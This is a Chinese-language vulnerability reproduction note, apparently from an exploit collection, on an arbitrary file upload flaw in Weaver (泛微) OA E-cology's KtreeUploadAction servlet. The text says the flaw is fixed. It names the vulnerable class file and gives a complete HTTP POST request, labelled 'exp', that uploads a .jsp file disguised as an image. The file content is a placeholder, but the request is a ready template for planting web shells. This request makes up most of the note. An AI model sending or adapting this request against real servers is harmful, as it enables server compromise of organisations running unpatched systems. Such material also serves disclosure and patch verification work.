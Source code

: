 # 泛微OA E-cology KtreeUploadAction 任意文件上传

## 漏洞描述

参考链接：

- [泛微e-cology任意文件上传(已修复)](https://mp.weixin.qq.com/s?__biz=MzkxMzIzNTU5Mg==&mid=2247483666&idx=1&sn=e70efe98c064e0f1df986e2b65c1a608&chksm=c1018af5f67603e39ce4d6e9375875e63e7b80633a1f99959f8d4652193ac3734765a99099ea&mpshare=1&scene=23&srcid=0414cqXy50udQOy19LYOMega&sharer_sharetime=1618332600979&sharer_shareid=d15208c7b27f111e2fe465f389ab6fac#rd)

## 漏洞影响

```
目前已修复
```

## 漏洞复现

定位文件：

`ecology\CLASSB~1\com\weaver\formmodel\apps\ktree\servlet\KtreeUploadAction.class`

exp：

```

POST /weaver/com.weaver.formmodel.apps.ktree.servlet.KtreeUploadAction?action=image HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Secure; JSESSIONID=abc6xLBV7S2jvgm3CB50w; Secure; testBanCookie=test
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=--------1638451160
Content-Length: 171

----------1638451160
Content-Disposition: form-data; name="test"; filename="test.jsp"
Content-Type: image/jpeg

helloword
----------1638451160--
```

